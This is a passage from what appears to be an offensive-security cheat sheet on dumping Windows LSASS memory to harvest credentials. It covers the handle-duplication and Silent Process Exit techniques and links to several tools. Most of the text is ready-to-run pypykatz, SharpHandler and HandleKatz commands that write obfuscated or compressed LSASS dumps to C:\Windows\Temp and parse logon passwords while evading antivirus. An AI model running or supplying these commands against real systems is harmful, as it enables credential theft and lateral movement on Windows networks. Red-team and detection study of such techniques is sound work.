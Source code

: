 - [https://rastamouse.me/duplicating-handles-in-csharp/](https://rastamouse.me/duplicating-handles-in-csharp/)
- [https://rastamouse.me/dumping-lsass-with-duplicated-handles/](https://rastamouse.me/dumping-lsass-with-duplicated-handles/)



### pypykatz

* [https://skelsec.medium.com/duping-av-with-handles-537ef985eb03](https://skelsec.medium.com/duping-av-with-handles-537ef985eb03)

```
Cmd > .\pypykatz.exe live lsa --method handledup
```



### SharpHandler

* [https://github.com/jfmaes/SharpHandler](https://github.com/jfmaes/SharpHandler)
* [https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-SharpHandler.ps1](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-SharpHandler.ps1)

Scan if there are dupeable handles to use:

```
PS > Invoke-SharpHandler -C "-s"
```

Write a gzip-compressed minidump to specified location:

```
PS > Invoke-SharpHandler -C "-w -c -l=C:\Windows\Temp\pony.dat"
```

Dump and parse with SharpKatz's `logonpasswords`:

```
PS > Invoke-SharpHandler -C "-d"
```



### HandleKatz

- [https://github.com/codewhitesec/HandleKatz](https://github.com/codewhitesec/HandleKatz)

```
$ x86_64-w64-mingw32-gcc -o loader.exe loader.cpp -lcrypt32
Cmd > .\loader.exe --pid:852 --outfile:C:\Windows\Temp\dump.obfuscated
```




## Silent Process Exit

* [https://www.deepinstinct.com/2021/02/16/lsass-memory-dumps-are-stealthier-than-ever-before-part-2/](https://www.deepinstinct.com/2021/02/16/lsass-memory-dumps-are-stealthier-than-ever-before-part-2/)
* [https://github.com/deepinstinct/LsassSilentProcessExit](https://github.com/deepinstinct/LsassSilentProcessExit)
* [https://github.com/lengjibo/RedTeamTools/tree/master/windows/LsassSilentProcessExit](https://github.com/lengjibo/RedTeamTools/tree/master/windows/LsassSilentProcessExit)
* [https://github.com/CompassSecurity/PowerLsassSilentProcessExit](https://github.com/CompassSecurity/PowerLsassSilentProcessExit)
* [https://gitlab.com/KevinJClark/csharptoolbox/-/blob/master/ShhProcessExit.cs](https://gitlab.com/KevinJClark/csharptoolbox/-/blob/master/ShhProcessExit.cs)

